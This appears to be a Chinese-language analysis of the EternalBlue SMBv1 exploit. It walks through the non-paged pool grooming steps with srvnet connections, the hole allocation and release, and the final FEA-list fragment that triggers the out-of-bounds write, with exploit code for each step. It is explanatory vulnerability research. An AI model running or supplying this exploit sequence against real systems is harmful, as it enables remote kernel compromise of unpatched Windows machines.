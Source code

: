 二、利用bug3申请大小为：`NTFEA_SIZE-0x1010`的non-paged pool内存

```
allocConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x1010)
```

这块内存的申请是为了确保后续NTFEA的内存可以与srvnet相邻

三、申请多个srvnet进行占坑：

```
	srvnetConn = []
	for i in range(numGroomConn):
		sk = createConnectionWithBigSMBFirst80(target)
		srvnetConn.append(sk)
```

四、利用bug3申请大小为：`NTFEA_SIZE-0x10`的non-paged pool内存

```
holeConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)
```

这块内存是用来确保NTFEA使用，接着让srvnet与这块内存相邻即可

五、释放第二步申请的内存，这样可以确保临时申请的一些小内存不会直接添加到holeConn后面，阻碍srvnet的占用

```
allocConn.get_socket().close()
```

六、申请srvnet，仅靠holeConn：

```
	for i in range(5):
		sk = createConnectionWithBigSMBFirst80(target)
		srvnetConn.append(sk)
```

这里申请多个，只有一个可以仅靠holeConn，那么就算是成功了

七、此时内存布局基本完成，释放holeConn，准备触发整个漏洞链

```
holeConn.get_socket().close()
```

八、发送fealist最后一个fragment，此时会触发bug1的越界操作

```
send_trans2_second(conn, tid, feaList[progress:], progress)
```

这里通过响应来判断是否发生越界，因为构造的fealist最后一条记录是非法记录，转换肯定会报错：

```
	recvPkt = conn.recvSMB()
	retStatus = recvPkt.getNTStatus()
	# retStatus MUST be 0xc000000d (INVALID_PARAMETER) because of invalid fea flag
	if retStatus == 0xc000000d:
		print('good response status: INVALID_PARAMETER')
	else:
		print('bad response status: 0x{:08x}'.format(retStatus))
```
